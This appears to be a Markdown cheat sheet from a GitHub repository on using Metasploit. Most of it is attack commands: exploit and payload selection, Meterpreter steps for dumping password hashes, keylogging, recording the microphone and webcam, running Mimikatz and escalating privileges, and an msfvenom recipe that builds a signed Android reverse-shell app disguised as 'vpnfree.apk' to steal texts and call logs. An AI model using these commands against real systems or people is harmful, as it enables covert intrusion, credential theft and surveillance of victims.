 # MetaSploit

## Initialize
- Database settings: 
  - ```systemctl start postgresql```
  - ```msfdb init```
- Run
  - ```msfconsole```  
- Workspace
  - Create: ```workspace -a nasa``` 
  - Delete: ```workspace -d nsa```
  - Show: ```workspace```  
  - Go to a workspace: ``` workspace nasa``` 

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```
- Web scanner path 
  - ```/usr/share/metasploit-framework/modules/auxiliary/scanner/http/```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of service.exe - DLL Hijack for persistant


## msfvenom (Android)
- Create malware
  - ```msfvenum -p android/meterpreter/reverse_tcp -e shikata-ga-nai lhost=192.168.1.18 lport=443 R > /var/www/html/vpnfree.apk``` 
  - ```Keytool -genkey -v -keystore nss.keystore -alias nss -keyalg RSA -keysize 2048 -validity 100000```
  - ```jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore nss.keystore /var/www/html/vpnfree.apk nss```
- Listen in Kali (msfconsole)
  - ```use exploit/multi/handler```
  - ```set payload android/meterpreter/reverse_tcp```
  - ```set lhost 192.168.1.18```
  - ```set lport 443```
  - ```run -j```
- Exploit
  - ```sessions -l```
  - ```sessions -i 1```
  - ```dump_sms```
  - ```dump_calllog```
  - ```record_mic -d 15```
  - ```Webcam_snap```
  - ```webcam_snap -h```
  - ```webcam_stream```
  - ```app_list```
    - show mobile app's 
  - ```app_run```
    - run one of above app 
  - ```shell```
    - open mobile shell  
     


